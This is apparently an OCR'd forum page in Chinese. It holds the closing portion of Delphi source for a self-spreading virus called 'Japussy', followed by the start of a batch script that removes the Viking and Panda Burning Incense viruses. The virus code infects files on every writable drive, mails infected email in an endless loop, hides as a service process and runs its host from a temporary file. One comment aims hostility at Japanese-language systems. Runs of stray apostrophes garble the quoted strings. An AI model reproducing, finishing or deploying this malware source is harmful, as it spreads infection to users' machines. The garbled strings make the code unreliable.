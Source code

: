        SubDir.Add(SearchRec.Name);
      until (FindNext(SearchRec) <> 0);
      end;
FindClose(SearchRec);
Count := SubDir.Count - 1;
for i := 0 to Count do
      LoopFiles(Path + SubDir.Strings + ''''''''''''''''\'''''''''''''''', Mask);
FreeAndNil(SubDir);
end;
{ 遍历磁盘上所有的文件 }
procedure InfectFiles;
var
DriverList: string;
i, Len: Integer;
begin
if GetACP = 932 then //日文操作系统
      IsJap := True; //去死吧！
DriverList := GetDrives; //得到可写的磁盘列表
Len := Length(DriverList);
while True do //死循环
begin
      for i := Len downto 1 do //遍历每个磁盘驱动器
        LoopFiles(DriverList + '''''''''''''''':\'''''''''''''''', ''''''''''''''''*.*''''''''''''''''); //感染之
      SendMail; //发带毒邮件
      Sleep(1000 * 60 * 5); //睡眠5分钟
end;
end;
{ 主程序开始 }
begin
if IsWin9x then //是Win9x
      RegisterServiceProcess(GetCurrentProcessID, 1) //注册为服务进程
else //WinNT
begin
      //远程线程映射到Explorer进程
      //哪位兄台愿意完成之？
end;
//如果是原始病毒体自己
if CompareText(ExtractFileName(ParamStr(0)), ''''''''''''''''Japussy.exe'''''''''''''''') = 0 then
      InfectFiles //感染和发邮件
else //已寄生于宿主程序上了，开始工作
begin
      TmpFile := ParamStr(0); //创建临时文件
      Delete(TmpFile, Length(TmpFile) - 4, 4);
      TmpFile := TmpFile + #32 + ''''''''''''''''.exe''''''''''''''''; //真正的宿主文件，多一个空格
      ExtractFile(TmpFile); //分离之
      FillStartupInfo(Si, SW_SHOWDEFAULT);
      CreateProcess(PChar(TmpFile), PChar(TmpFile), nil, nil, True,
        0, nil, ''''''''''''''''.'''''''''''''''', Si, Pi); //创建新进程运行之
      InfectFiles; //感染和发邮件
end;
end.
请转帖的朋友标明出处    [http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3d3dy5ob25rZXJjbi5uZXQ=](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3d3dy5ob25rZXJjbi5uZXQ=)
以下为清除威金、熊猫烧香病毒的批处理
@echo off
title 清除威金（logo_1,熊猫烧香）病毒最新变种工具
@echo 清除VIKING病毒最新变种工具
pause
if exist %windir%\rundl132.exe echo ---报告老大，发现有威金病毒埋伏! 让我来干掉它-----
if exist %windir%\logo_1.exe echo ---报告老大，发现有威金病毒埋伏!让我来干掉它 -----
//杀viking进程
tskill logo_1
tskill rundl132
